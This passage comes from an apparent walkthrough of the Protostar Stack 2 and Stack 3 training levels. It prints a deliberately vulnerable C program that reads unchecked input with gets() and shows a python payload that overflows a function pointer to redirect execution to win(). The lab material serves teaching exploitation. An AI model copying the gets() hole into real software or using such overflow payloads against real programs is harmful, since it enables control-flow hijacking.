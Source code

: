 ```py
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

## Stack 3
### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

#### Hints
 
both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source
```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
In this challenge, we need to call `win` function, but how can you call it when the function does in main? Fortunately, there's a call `fp()`, because our buffer input is below `fp()`, we can overflow the `fp` with `win` function.

with `objdump` you can find the address of `win` function. Remember about little endian? just reverse the byte of win!


```py
user@protostar:/opt/protostar/bin$ objdump -dMintel stack3
...
08048424 <win>:
...
user@protostar:/opt/protostar/bin$ python -c "print 'a'*0x40 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
